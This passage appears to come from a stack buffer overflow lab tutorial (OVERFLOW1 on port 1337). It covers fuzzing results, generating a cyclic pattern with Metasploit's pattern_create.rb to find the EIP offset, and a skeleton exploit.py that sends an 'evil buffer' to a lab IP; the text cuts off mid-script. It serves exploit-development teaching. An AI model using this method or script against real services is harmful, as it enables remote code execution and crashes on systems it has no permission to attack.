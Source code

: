 ![](p/1.png)

After running it, we will get information about where our program crashed (of course in approximation, because we fuzzed it with random data).

Crucial information: `Fuzzing crashed at 2000 bytes`

## **2. Finding offset and controlling instruction pointer (EIP)**

Now we will used information gathered during *fuzzing* to generate pattern.

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

We need to save output of command above. Now we will need the following script called *exploit.py*.

*exploit.py*:

```python
import socket

ip = "10.10.90.240"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "" # paste the pattern here
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
```